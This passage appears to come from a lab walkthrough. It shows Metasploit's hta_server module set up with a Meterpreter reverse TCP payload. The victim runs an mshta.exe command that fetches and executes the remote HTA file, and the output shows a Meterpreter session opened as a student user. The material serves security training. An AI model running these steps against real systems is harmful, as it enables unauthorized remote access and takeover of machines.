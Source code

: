 ```
        TX packets 20294  bytes 16842475 (16.0 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

_Open Metasploit console to exploit the target machine._

`msfconsole -q`

_Search for the hta_server exploit module, configure it with a reverse TCP payload, and execute the exploit._

`search hta_server`, `use exploit/windows/misc/hta_server`, `set PAYLOAD windows/meterpreter/reverse_tcp`, `show options`, `set LHOST 10.10.39.3`, `set LPORT 4444`, `exploit`:
```
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.39.3:4444 
[*] Using URL: http://0.0.0.0:8080/efTyriUD4ye.hta
[*] Local IP: http://10.10.39.3:8080/efTyriUD4ye.hta ←
[*] Server started.
```

**Explanation:** The `hta_server` exploit module in Metasploit creates a malicious HTA file hosted on the attacker's machine. When the target executes this file, it initiates a reverse shell connection back to the attacker.

<span style="color: #64b5f6;">**Target (victim) machine**</span>.

_Execute the malicious HTA file hosted on the attacker's machine._

`mshta.exe http://10.10.39.3:8080/efTyriUD4ye.hta`

**Explanation:** The `mshta.exe` command is used to execute the malicious HTA file, triggering the exploit and opening a reverse shell to the attacker's machine.

<span style="color: #e57373;">**Attacker machine**</span>.

_Confirm the successful exploitation by establishing a Meterpreter session._

```
[*] 10.4.17.70       hta_server - Delivering Payload
[*] Sending stage (176195 bytes) to 10.4.17.70
[*] Meterpreter session 1 opened (10.10.39.3:4444 -> 10.4.17.70:49811) at 2024-08-09 19:38:36 +0530 ←
```

**Explanation:** The output indicates that the exploit was successful, and a Meterpreter session has been established between the attacker and the target machine.

_List active sessions and interact with the established Meterpreter session._

`sessions`, `sessions -i 1`

<span style="color: #64b5f6;">**Target (victim) machine**</span>.

_Verify the user context of the Meterpreter session._

`getuid`:
```
Server username: PRIV-ESC\student ←
```

